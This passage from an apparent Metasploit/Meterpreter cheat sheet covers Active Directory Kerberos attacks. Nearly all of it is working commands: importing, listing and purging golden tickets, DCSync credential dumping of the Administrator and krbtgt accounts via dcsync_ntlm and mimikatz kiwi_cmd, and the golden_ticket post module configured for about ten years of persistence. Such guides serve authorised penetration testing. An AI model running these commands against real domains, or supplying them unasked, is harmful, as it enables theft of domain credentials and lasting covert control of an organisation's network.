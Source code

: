 - You can see the same golden ticket has been imported.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Purge the golden tickets

`meterpreter > kerberos_ticket_purge`

- **Using dcsync_ntlm**

```
meterpreter > dcsync_ntlm Administrator

meterpreter > dcsync_ntlm krbtgt

meterpreter > dcsync_ntlm <username>
```

- **You can execute mimikatz commands**

```
meterpreter > kiwi_cmd '"lsadump::dcsync /user:administrator"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:krbtgt"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:<username>"'
```

#### 1.3.2 - Modules

##### 1.3.2.1 - Post

- Create a golden ticket for persistence

```
msf exploit(multi/handler) > use post/windows/escalate/golden_ticket

msf post(windows/escalate/golden_ticket) > options

Module options (post/windows/escalate/golden_ticket):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        Target Domain
   Domain SID                    no        Domain SID
   END_IN       87608            yes       End in ... Duration in hours, default 10 YEARS (~87608 hours)
   GROUPS                        no        ID of Groups (Comma Separated)
   ID                            no        Target User ID
   KRBTGT_HASH                   no        KRBTGT NTLM Hash
   SESSION                       yes       The session to run this module on
   USE          false            yes       Use the ticket in the current session
   USER                          no        Target User

msf post(windows/esclate/golden_ticket) > set krbtgt_hash <ntlm_hash>

msf post(windows/esclate/golden_ticket) > set domain <domain_name>

msf post(windows/esclate/golden_ticket) > set domain sid <domain_sid>
```
